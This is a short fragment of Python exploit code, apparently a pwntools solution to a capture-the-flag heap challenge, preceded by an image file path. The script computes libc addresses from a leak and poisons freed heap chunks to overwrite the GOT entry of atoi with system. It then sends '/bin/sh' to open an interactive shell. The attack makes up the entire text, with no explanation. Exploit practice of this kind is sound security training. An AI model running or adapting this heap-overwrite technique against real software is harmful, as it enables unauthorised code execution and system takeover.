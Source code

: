 ```python

libc_base = libc_leak - 0x88542
info(f"libc_base: {hex(libc_base)}")

libc_system = libc_base + libc.symbols['system']
info(f"libc_system: {hex(libc_system)}")

# perform arb_write
delete(r, 3)
delete(r, 2)

edit(r, 2, p64(e.got['atoi']))

create(r, b"A")
create(r, p64(libc_system))

r.sendafter(b"Exit\n", b"/bin/sh")

# got shell
r.interactive()
```
